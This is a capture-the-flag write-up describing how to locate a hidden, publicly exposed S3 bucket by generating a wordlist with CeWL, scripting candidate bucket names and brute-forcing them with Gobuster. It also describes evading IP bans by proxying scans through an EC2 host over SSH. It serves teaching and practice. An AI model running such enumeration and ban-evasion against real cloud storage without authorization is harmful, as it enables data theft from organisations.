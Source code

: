 # Challenge: Find the leaking bucket!
It was made known to us that agents of COViD are exfiltrating data to a hidden S3 bucket in AWS! We do not know the bucket name! One tip from our experienced officers is that bucket naming often uses common words related to the company’s business.
Do what you can! Find that hidden S3 bucket (in the format “word1-word2-s4fet3ch”) and find out what was exfiltrated!

Company Website: https://d1ynvzedp0o7ys.cloudfront.net/

## Summary:
This company had a misconfigured S3 bucket which was publically exposed to the internet. Players had to brute-force the S3 bucket name using the words on the website to discover
this misconfigured bucket. They then had to perform a known plaintext attack on an encrypted zip file to obtain the flag.

Related MITRE ATT&CK techniques: 

T1530 - https://attack.mitre.org/techniques/T1530/

## Tools used:
OS - Kali Linux

CeWL - wordlist generator (https://github.com/digininja/CeWL)

Gobuster v3.0.1- URL Fuzzer (https://github.com/OJ/gobuster)

Amazon EC2 Instance (Optional) - as a proxy 

FoxyProxy browser plugin - browser plugin for proxying (https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)

## Process:
From the website we see that there are words that are shown, from the challenge description we see that we have to use the common words related to the company's business.

### Step 1: Building the Wordlist
One tool we can use to extract the words is CeWL, CeWL is a tool that helps us generate wordlists from a website based on the words shown there

``````
cewl https://d1ynvzedp0o7ys.cloudfront.net/ > wordlist.txt
``````
This tool however does not work on pictures and it looks like we have to manually extract keywords from the Steve Jobs quote, to be safe I just extracted the entire Steve Jobs quote. I cleaned up the wordlist by removing capital letters as S3 buckets cannot consist of capital letters (https://docs.aws.amazon.com/AmazonS3/latest/dev/BucketRestrictions.html) as well as the CeWL header which generates everytime CeWL is loaded. The final wordlist can be found here - https://github.com/BunchOfBytes/STF-2020/blob/main/Cloud/wordlist.txt.

Now from this wordlist we can create a small Python script which helps us to generate all the possible S3 bucket names in the format “word1-word2-s4fet3ch”

File: script.py (https://github.com/BunchOfBytes/STF-2020/blob/main/Cloud/script.py)
``````
##Create a list of words from wordlist
wordlist=[]
file = 'wordlist.txt'
with open(file, 'r') as f:
    for line in f:
        line = line.rstrip("\n")    
        wordlist.append(line)

##Print the words to be outputted which will be redirected into a file later
for i in wordlist:
   str=""
   str+=(i+"-")
   print(str)
   for j in wordlist:
       str+=(j+"-")
       str+="s4fet3ch"
       print(str)
       str=(i+"-")
``````

Now we just redirect it to a new txt file
``````
python script.py > possible.txt
``````

### Step 2: Performing the bruteforce
Now we can use Gobuster which can help us to perform a directory bruteforce attack using our wordlist that we built. Please note that this should be performed with the latest
version of Gobuster (v3.0.1) as the syntax has changed a little over time
``````
gobuster dir -u http://s3-ap-southeast-1.amazonaws.com/ -w possible.txt
``````
You should receive the following output:
``````
===============================================================
2020/12/09 02:09:25 Finished
===============================================================
root@kali:~/Downloads# gobuster dir -u http://s3-ap-southeast-1.amazonaws.com/ -w possible.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://s3-ap-southeast-1.amazonaws.com/
[+] Threads:        10
[+] Wordlist:       possible.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/09 02:11:17 Starting gobuster
===============================================================
/think-innovation-s4fet3ch (Status: 200)
===============================================================
2020/12/09 02:11:20 Finished
===============================================================
``````
If you do not receive the above, that means AWS has perhaps shadowbanned you from viewing bucket listings, I have included an optional step for you to take a look in case
you would like to bypass this (see below!)

Now we can visit https://s3-ap-southeast-1.amazonaws.com/think-innovation-s4fet3ch to view the XML listing of the bucket.

![XML Listing](https://github.com/BunchOfBytes/STF-2020/blob/main/Screenshot%20(2).png)
### Optional Step: What if I am blocked from scanning buckets on AWS?
Often times, especially when performing a pentest, we may try to mount bruteforce attacks and suddenly get banned from logging into the machine. If the ban is based on IP, instead of asking a client to reset a production machine which can cost our client money for the downtime, we can instead proxy our login requests through another machine we compromised.

Similarly, I created an Amazon EC2 Instance on the ap-southeast-1 region to proxy my requests through. You may read up how to do that here: (https://docs.aws.amazon.com/efs/latest/ug/gs-step-one-create-ec2-resources.html)

Once we have received our public key and created an instance we first change our permissions for the public key file (Replace with your public key name)
``````
chmod 400 stf.pem
``````

And we can perform a dynamic SSH portforwarding, (replace the public key name and generated EC2 address with your own.)
``````
ssh -i stf.pem -N -D 127.0.0.1:8080 ec2-user@52.221.195.216
``````

We can now utilise our machine as a proxy, luckily for us, Gobuster has an option for us to specify a proxy using -p
``````
gobuster dir -u http://s3-ap-southeast-1.amazonaws.com/ -p socks5://127.0.0.1:8080 -w possible.txt
``````
We can also use our browser to view the XML listing of files in the S3 bucket using the FoxyProxy browser plugin (See here: https://null-byte.wonderhowto.com/how-to/use-burp-foxyproxy-easily-switch-between-proxy-settings-0196630/) Configure it to use the proxy IP 127.0.0.1, port 8080 and proxy type SOCKS5. We should be able see the XML listing and hence download the secret-files.zip. 
### Writeup by: Haxatron
